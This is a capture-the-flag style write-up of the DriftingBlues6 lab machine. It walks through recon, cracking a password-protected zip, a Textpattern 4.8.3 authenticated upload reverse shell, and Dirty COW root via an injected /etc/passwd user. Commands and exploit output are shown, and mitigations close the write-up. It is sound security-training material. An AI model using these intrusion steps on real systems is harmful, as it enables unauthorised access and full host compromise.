


<!-- writeup-meta
title: DriftingBlues6
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.241.219
date: 2026-10-19
tags:
  - writeup
  - linux
  - textpattern
  - zip-cracking
  - dirtycow
  - privesc
-->
# DriftingBlues6

> [!NOTE]
> **TL;DR** — The only port is a Textpattern 4.8.3 CMS. A `robots.txt` hint points at a `.zip` directory brute-force, which turns up a password-protected `spammer.zip`; cracking it with John yields the CMS admin credentials. Textpattern 4.8.3 has an authenticated file-upload RCE, so a PHP shell gets `www-data`. The kernel is a long-EOL Debian 3.2, so **Dirty COW** (CVE-2016-5195) finishes the job.
>
> **Path:** `robots.txt` `.zip` hint → `spammer.zip` (John) → Textpattern creds → authenticated file-upload RCE → `www-data` → Dirty COW → root

## 1. Recon

### 1.1 Nmap

A single port, with a `robots.txt` entry pointing at a Textpattern CMS:

```bash
$ nmap -Av -sS -p- 192.168.241.219
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: driftingblues
| http-robots.txt: 1 disallowed entry
|_/textpattern/textpattern
```

The landing page is themed art with a "please don't hack / enough is enough!!!" message:



### 1.2 Web enumeration

`robots.txt` disallows the CMS admin path and, more usefully, drops a hint:

```bash
$ curl -s http://192.168.241.219/robots.txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

`/textpattern/textpattern` is the Textpattern admin login — no default creds work:



The front page at `/textpattern` throws a PHP `strftime()` timezone warning — harmless noise from an unset `date.timezone`, but it confirms the stack is **Textpattern CMS**. (Its internal links all point at `192.168.2.35`, the IP baked into the install's site URL — an author artifact, not a second host.) `textpattern/textpattern.js` pins the version:

```bash
$ curl -s http://192.168.241.219/textpattern/textpattern/textpattern.js | grep version
textpattern.version = '4.8.3';
```

Textpattern 4.8.3 has an **authenticated** file-upload RCE, so the whole game is getting valid credentials.

> [!WARNING]
> **Red herrings.** The home page's "please don't hack" plea and a page-source comment (`please hack vvmlist.github.io instead`) are flavour, not clues — don't chase them.

### 1.3 The .zip breadcrumb

Taking the `robots.txt` hint literally, a `.zip`-focused brute-force finds one file:

```bash
$ feroxbuster -u http://192.168.241.219/ -x zip -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
200      GET      http://192.168.241.219/spammer.zip
```

`spammer.zip` is password-protected and holds a single `creds.txt`. Crack the archive password with John:

```bash
$ zip2john spammer.zip > hash.txt
$ john --format=PKZIP hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
[REDACTED]         (spammer.zip/creds.txt)
```

Unzipping with `[REDACTED]` reveals `creds.txt` — the Textpattern admin username and password.

## 2. Foothold

### 2.1 Textpattern authenticated upload → shell

> [!IMPORTANT]
> **Vulnerability:** Textpattern 4.8.3 authenticated file upload → RCE. Logged into the admin panel with the recovered creds, I used the **Files** section to upload a PHP reverse shell (uploads land under `/textpattern/files/`), then triggered it.

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
$ curl -s http://192.168.241.219/textpattern/files/pentestMonkey.php
```

```bash
connect to [<LHOST>] from (UNKNOWN) [192.168.241.219] 46670
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Stabilise the TTY:

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl-Z
$ stty raw -echo; fg
$ export TERM=xterm-256color
```

- **Initial access as:** `www-data`
- (Single-flag box — no `local.txt`; the only flag is root's.)

## 3. Privilege Escalation

### 3.1 Enumeration

No home directories, `sudo` isn't even installed, and nothing turned up via SUID or capabilities. `config.php` leaked the MySQL credentials, but they led nowhere. The giveaway was the kernel:

```bash
www-data@driftingblues:/$ uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```

A Debian 3.2 kernel is years past EOL — prime **Dirty COW** territory — and `gcc` is installed, so I can compile on the box.

### 3.2 Exploitation — Dirty COW (CVE-2016-5195)

> [!TIP]
> **Why it works:** Dirty COW is a race condition in the kernel's copy-on-write handling of private memory mappings, letting an unprivileged user write to read-only files. Exploit [40839](https://www.exploit-db.com/exploits/40839) abuses it to append a UID-0 user (`firefart`) straight into `/etc/passwd`.

Served the exploit from my box with `python3 -m http.server`, pulled it down, compiled, and ran it:

```bash
www-data@driftingblues:/tmp$ gcc -pthread 40839.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
...
Done! Check /etc/passwd to see if the new user was created.
```

### 3.3 Root

`firefart` is a UID-0 account, so switching to it is a root shell:

```bash
www-data@driftingblues:/tmp$ su firefart
firefart@driftingblues:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:/tmp# cat /root/proof.txt
[REDACTED]
```

- **Escalated to:** `root` (as `firefart`, UID 0)
- **proof.txt:** `[REDACTED]`

> [!WARNING]
> Dirty COW's `/etc/passwd` variant corrupts the real file. Restore it afterwards (`mv /tmp/passwd.bak /etc/passwd`) so the box — and legitimate logins — keep working.

## 4. Lessons Learned

- **Read `robots.txt` literally — even the jokes.** "add `.zip` to your dir-brute" was a genuine hint; `feroxbuster -x zip` found `spammer.zip` on the first run.

- **Always try a password-protected zip.** `zip2john` + John + `rockyou` cracked a 179-byte archive instantly, and `creds.txt` inside was the entire foothold.

- **Pin the CMS version, then match an exploit.** `textpattern.js` leaked `4.8.3`, which has a known *authenticated* upload RCE — so the real work was just getting valid credentials, not finding a 0-day.

- **Old kernel + `gcc` on the box = Dirty COW.** A Debian 3.2 kernel is a decade of missing patches. Check `uname -a` early; with a compiler present, `40839` is a reliable root.

- **Ignore the misdirection.** The "please don't hack" page and the `vvmlist.github.io` comment were trolls, not leads.

- **New technique for my notes:** `zip2john` for protected archives; Dirty COW `40839` (`/etc/passwd` firefart) — and remember to restore `/etc/passwd`.

## 5. Mitigation

- **Don't serve secrets in web-reachable archives.** `spammer.zip` containing `creds.txt` under the web root was the whole way in. Keep credentials off the web server entirely.

- **Patch and harden the CMS.** Textpattern 4.8.3 has a public authenticated RCE — update it, enforce strong admin passwords, and don't reuse a `rockyou` word as a zip password.

- **Patch the kernel.** Dirty COW was fixed in 2016; a Debian 3.2 kernel is unsupportable. Update, and remove build tools like `gcc` from production hosts to raise the bar on local exploitation.

## References

- [Exploit-DB 40839 — Dirty COW (CVE-2016-5195), /etc/passwd variant](https://www.exploit-db.com/exploits/40839)
- [Textpattern CMS 4.8.3 — authenticated RCE](https://www.exploit-db.com/exploits/48943)
- [HackTricks — cracking password-protected zips (zip2john)](https://book.hacktricks.xyz/crypto-and-stego/cryptographic-hash-cracking)
